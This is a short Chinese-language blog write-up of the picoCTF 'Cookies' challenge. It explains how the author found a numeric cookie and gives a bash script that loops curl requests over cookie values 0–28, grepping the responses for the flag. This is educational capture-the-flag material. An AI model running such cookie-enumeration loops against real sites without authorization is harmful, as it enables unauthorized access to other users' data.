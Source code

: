 +++
title = "pioCTF - Cookies"
template = "page.html"
date = 2021-07-01T20:09:27+08:00
[taxonomies]
tags = ["ctf"]
[extra]
summary = "40 Points"
+++

這一題標題就非常明示的，這是跟 Cookies 有關係。
打開網址首先會看到一個輸入匡跟搜尋按鈕，輸入匡裡還有 placeholder 寫著 snickerdoodle。直接輸入 snickerdoodle

會出現 I love snickerdoodle cookies!

打開瀏覽器開發工具，找出 Cookies 會發現寫了一筆 `name = 0` 的 Cookie ，以此類推，可能會有 1, 2, 3... 的 cookies。

接下來 curl 是工程師的好朋友，寫一隻 Shell Script。因為 Flag 有某些特徵，所以我用 Grep 去過濾掉不要的資訊。

```bash
#!/bin/bash

set -B
for i in {0..28}; do
  curl -v --silent 'http://picoctf/check' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://picoctf/check' -H 'Cookie: name='$i -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' 2>&1 | grep pico
done
```

這題分數雖然不高，其實也真的不難，但寫 Shell Script 蠻有趣的。
